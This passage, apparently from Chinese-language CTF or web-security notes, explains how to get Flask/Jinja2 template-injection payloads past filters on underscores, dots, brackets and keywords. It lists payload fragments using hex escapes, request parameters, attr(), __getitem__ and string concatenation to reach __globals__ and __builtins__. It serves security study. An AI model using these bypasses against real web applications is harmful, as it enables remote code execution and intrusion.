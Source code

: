 ## 过滤`_`

用编码绕过

```python
比如：__class__ => \x5f\x5fclass\x5f\x5f
```

当然也可以用上面说过的request绕过

```
request.args.x1   	get传参
request.values.x1 	post传参
request.cookies
request.form.x1   	post传参	(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
request.data  		post传参	(Content-Type:a/b)
request.json		post传json  (Content-Type: application/json)
```

举一个简单的例子

例如`''.__class__`写成 '`'|attr(request['values']['x1'])`,然后post传入`x1=__class__`

## 过滤`.`或者`[]`

`.`在payload中是很重要的，但是我们依旧可以采用`attr()`或`[]`绕过

```
小总结:
().__class__
()["__class__"]
()|attr("__class__")
().__getattribute__("__class__") //获取属性
|attr('__getitem__')(177) //列表获取序号
"".__class__.__mro__[2]
"".__class__.__mro__.__getitem__(2)
或者flask支持
"".__class__.__mro__.2
{{x.__init__.__globals__.__getitem__("__builtins__")}} //也可以获取字典里面的键值对
```

## 关键字黑名单绕过

Flask在渲染模板的时候，有

> ```
> "".__class__`===`""["__class__"]
> ```

这一特性，把上下文变成了[]中的字符串，这个特性经常会被用来绕过点号的过滤。
由于里面的内容已经是字符串了，还可以做一个这样的变形

> ```
> "".__class__`===`""["__cla"+"ss__"]
> ```
